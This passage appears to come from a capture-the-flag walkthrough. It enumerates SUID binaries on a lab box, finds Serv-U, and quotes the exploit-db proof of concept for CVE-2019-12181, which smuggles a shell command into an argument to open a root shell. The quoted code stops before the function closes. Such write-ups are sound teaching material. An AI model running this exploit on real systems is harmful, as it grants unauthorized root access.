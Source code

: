 ```
love@election:~$ find / -perm -u=s -type f 2>/dev/null                                                                  /usr/bin/arping                                                                                                         /usr/bin/passwd                                                                                                         /usr/bin/pkexec                                                                                                         /usr/bin/traceroute6.iputils                                                                                            /usr/bin/newgrp                                                                                                         /usr/bin/chsh                                                                                                           /usr/bin/chfn                                                                                                           /usr/bin/gpasswd                                                                                                        /usr/bin/sudo                                                                                                           /usr/sbin/pppd                                                                                                          /usr/local/Serv-U/Serv-U                                                                                                /usr/lib/policykit-1/polkit-agent-helper-1                                                                              /usr/lib/eject/dmcrypt-get-device                                                                                       /usr/lib/openssh/ssh-keysign                                                                                            /usr/lib/dbus-1.0/dbus-daemon-launch-helper                                                                             /usr/lib/xorg/Xorg.wrap                                                                                                 /bin/fusermount                                                                                                         /bin/ping
```

We get this interesting `Serv-U` file.

```
love@election:~$ cd /usr/local/Serv-U/
love@election:/usr/local/Serv-U$ ls
 Client                 Scripts                 Serv-U-DefaultCertificate.crt               Serv-U-Tray    uninstall
'Custom HTML Samples'   Serv-U                  Serv-U-DefaultCertificate.key               Shares
 Images                 Serv-U.Archive         'Serv-U Integration Sample Shared Library'   Strings
 Legal                  Serv-U.Archive.Backup   Serv-U-StartupLog.txt                      'Tray Themes'
love@election:/usr/local/Serv-U$
```

Doing some research, there is a [Local Privilege Escalation Exploit](https://www.exploit-db.com/exploits/47009) on our lovely exploit-db. The exploit code is short and looks like this:

```
/*

CVE-2019-12181 Serv-U 15.1.6 Privilege Escalation 

vulnerability found by:
Guy Levin (@va_start - twitter.com/va_start) https://blog.vastart.dev

to compile and run:
gcc servu-pe-cve-2019-12181.c -o pe && ./pe

*/

#include <stdio.h>
#include <unistd.h>
#include <errno.h>

int main()
{       
    char *vuln_args[] = {"\" ; id; echo 'opening root shell' ; /bin/sh; \"", "-prepareinstallation", NULL};
    int ret_val = execv("/usr/local/Serv-U/Serv-U", vuln_args);
    // if execv is successful, we won't reach here
    printf("ret val: %d errno: %d\n", ret_val, errno);
```